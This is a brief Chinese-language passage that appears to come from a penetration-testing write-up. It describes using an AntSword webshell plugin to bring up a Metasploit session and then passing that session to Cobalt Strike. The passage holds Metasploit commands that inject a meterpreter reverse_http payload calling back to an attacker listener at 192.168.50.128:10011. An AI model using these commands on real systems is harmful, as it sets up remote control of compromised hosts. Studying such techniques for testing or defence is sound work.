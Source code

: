 ## MSF上线

利用蚁剑的插件上线MSF

![image-20231121143532071](images/10.png)

然后将会话转到CS上

```
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set lhost 192.168.50.128     # 创建cs监听的地址
set lport 10011              # cs监听端口
set session 1
exploit
```
